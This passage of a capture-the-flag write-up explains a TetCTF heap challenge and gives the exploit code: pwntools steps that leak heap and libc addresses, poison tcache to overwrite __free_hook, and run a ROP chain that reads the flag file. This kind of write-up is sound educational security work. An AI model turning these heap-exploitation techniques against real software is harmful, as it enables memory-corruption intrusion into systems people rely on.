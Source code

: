 With the above setup, I have two small `victim` chunks to poison later, and a large chunk that will go into `unsorted bin` when freed to leak `libc`.

## Leak heap and libc
Simply read a heap pointer that is stored somewhere on the heap to leak `heap`, and free the large chunk to leak `libc`:
```python
# Leak heap
read(collide2, 0x40, 8)
heap = u64(r.recv(8)) - 0x144d0
log.info("heap: {}".format(hex(heap)))

# Erase large cache, leak libc
erase("leak")
read(collide2, 0x380, 8)
l.address = u64(r.recv(8)) - 0x1ebbe0
log.info("libc: {}".format(hex(l.address)))
```

## Tcache poisoning
Freeing the two `victim` chunks and we can easily overwrite their `fd` pointer, classic `tcache poisoning`. With that, I now could overwrite `__free_hook` and also had all the leaked addresses in my hands. I could just use my ROP chain that I explained [here](https://blog.efiens.com/post/midas/heap-seccomp-rop/) to read the flag. Note that the `payload` must be put into a cache's `name`, not `content`, because the `name` is what actually got `free()` first when we call `erase`.
```python
# Erase victims, overwrite victim2's fd to __free_hook
erase("victim1")
erase("victim2")
write(collide2, 0x200, 8, p64(l.symbols["__free_hook"]))

# Build ROP payload
base = heap + 0x124b0             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
... # read the full payload in my other post or my full script
payload += b"/home/cache/flag"

# Create a cache with payload as its name
create(payload, 0x100)
write(payload, 0, 8, "A"*8)

# Overwrite __free_hook with call_gadget
create("free", 0x100)
write("free", 0, 8, p64(call_gadget))

# Execute the chain
erase(payload)
```

The flag is:
```
TetCTF{https://www.youtube.com/watch?v=NvOHijJqups}
```

